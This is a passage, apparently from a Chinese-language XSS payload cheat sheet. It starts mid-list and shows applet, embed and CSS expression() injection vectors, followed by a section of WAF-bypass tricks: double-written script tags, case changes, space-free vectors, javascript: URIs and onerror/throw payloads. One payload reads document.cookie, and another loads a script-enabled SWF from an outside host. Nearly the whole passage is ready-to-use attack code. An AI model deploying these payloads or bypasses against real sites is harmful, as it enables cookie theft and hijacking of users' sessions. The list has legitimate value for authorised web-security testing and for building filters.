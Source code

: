     ```html
    <applet code="javascript:confirm(document.cookie);"> // Firefox有效
    ```

    ```html
    embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always>
    ```

27. expression属性

    ```html
    <img style="xss:expression(alert(0))"> // IE7以下

    <div style="color:rgb(''&#0;x:expression(alert(1))"></div> // IE7以下

    <style>#test{x:expression(alert(/XSS/))}</style> // IE7以下
    ```





## 0x02 一些过waf技巧

- 单次过滤规则绕过：有些规则仅进行一次过滤替换，可以通过双重复写绕过`<scr<script>ipt>`

- 大小写绕过：`<sCript>`

- alert被过滤，可以尝试prompt和confirm

- 没有引号和分号：`<IMG SRC=javascript:alert('XSS')>`

- 空格被过滤：`<img/src=""onerror=alert(2)> <svg/onload=alert(2)></svg>`

- 反引号妙用：

- 长度限制时： ```<q/oncut=alert(1)>//在限制长度的地方很有效```

- 单引号及双引号被过滤情况: `<script>alert(/jdq/)</script> //用双引号会把引号内的内容单独作为内容 用斜杠，则会连斜杠一起回显`

- javascript伪协议

  ```
  <a href="javascript:alert(/test/)">xss</a>
  <iframe src=javascript:alert('xss');height=0 width=0 /><iframe>利用iframe框架标签
  ```

- 畸形payload：```<IMG """><SCRIPT>alert("XSS")</SCRIPT>">```

- /的妙用：```<script>alert(/3/)</script>```

- 括号被过滤,可以使用throw来抛出数据

  `<a onmouseover="javascript:window.onerror=alert;throw 1">2</a>`

  `<img src=x onerror="javascript:window.onerror=alert;throw 1">`

  以上两个测试向量在 Chrome 和 IE 上会出现一个 "uncaught" 错误，可以用下面的向量代替（下面向量在FireFox上测试失败）

  `<body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29';>`
